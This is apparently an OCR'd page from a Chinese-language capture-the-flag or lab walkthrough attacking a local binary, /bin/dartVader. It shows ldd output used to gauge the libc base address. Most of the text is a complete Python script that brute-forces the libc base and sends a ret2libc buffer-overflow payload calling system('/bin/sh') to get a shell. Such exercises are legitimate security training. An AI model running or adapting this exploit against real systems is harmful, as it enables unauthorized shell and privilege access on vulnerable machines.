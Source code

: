 多次运行 `ldd /bin/dartVader` 观察 libc 基址变化范围，例如：

```bash
erso@deathStar1:~$ ldd /bin/dartVader 
        linux-gate.so.1 =>  (0xb7793000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75d7000) # <--- libc 基址
        /lib/ld-linux.so.2 (0xb7795000)
```

基址大约在 `0xb75xxxxx` 到 `0xb77xxxxx` 之间。

编写爆破脚本 `exp.py`：

```python
#!/usr/bin/env python3

from struct import pack
from subprocess import call

# 已知偏移量
system_offset = 0x40310
exit_offset = 0x33260
sh_offset = 0x162d4c

# 固定目标程序路径
app = b"/bin/dartVader"

# 缓冲区填充长度（根据你的溢出点调整）
offset = b"A" * 76

def try_exploit(libc_base):
    system = pack('<I', libc_base + system_offset)
    exit_func = pack('<I', libc_base + exit_offset)
    sh_str = pack('<I', libc_base + sh_offset)
    payload = offset + system + exit_func + sh_str
    ret = call([app, payload])
    return ret == 0

# 爆破 libc 地址范围（每次增加 0x1000）
base_address = 0xb7500000
end_address = 0xb7700000

print("[*] Starting brute-force attack...")

found = False
for addr in range(base_address, end_address, 0x1000):
    print("[+] Trying libc base: 0x%08x" % addr)
    if try_exploit(addr):
        print("[+] Exploit successful!")
        found = True
        break

if not found:
    print("[-] Brute-force failed.")
```
